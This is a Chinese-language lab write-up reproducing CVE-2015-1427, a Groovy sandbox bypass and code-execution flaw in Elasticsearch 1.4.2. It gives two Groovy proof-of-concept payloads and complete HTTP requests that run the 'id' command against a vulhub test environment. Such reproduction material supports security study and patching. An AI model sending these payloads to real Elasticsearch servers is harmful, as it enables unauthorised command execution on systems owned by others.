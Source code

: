 （CVE-2015-1427）ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞
==============================================================

一、漏洞简介
------------

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过；
2.是一个Goovy代码执行漏洞。

二、漏洞影响
------------

elasticsearch版本：v1.4.2

三、复现过程
------------

### Groovy语言"沙盒"

ElasticSearch支持使用"在沙盒中的"Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1.  既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射

2.  Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

    java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()

Goovy直接执行命令法：

    def command='id';def res=command.execute().text;res

### 漏洞复现

编译及运行测试环境

    docker-compose build
    docker-compose up -d

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
      "name": "test"
    }

然后发送包含payload的数据包，执行任意命令：

    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/text
    Content-Length: 156

    {"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}

![](resource/(CVE-2015-1427)ElasticSearchGroovy沙盒绕过&&代码执行漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-1427/
